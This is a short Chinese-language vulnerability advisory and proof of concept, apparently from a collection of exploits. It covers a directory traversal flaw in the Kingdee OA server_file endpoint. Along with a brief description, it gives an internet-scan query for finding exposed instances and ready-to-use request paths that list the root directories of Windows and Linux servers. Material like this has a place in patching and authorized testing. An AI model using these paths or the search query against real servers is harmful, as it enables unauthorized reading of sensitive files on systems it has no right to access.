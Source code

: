 # 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

```
金蝶OA
```

## 网络测绘

```
app="Kingdee-EAS"
```

## 漏洞复现

登录界面为



![1](./images/202202090144781.png)

漏洞POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=

# Windows服务器
appmonitor/protected/selector/server_file/files?folder=C://&suffix=

# Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![2](./images/202202090144057.png)
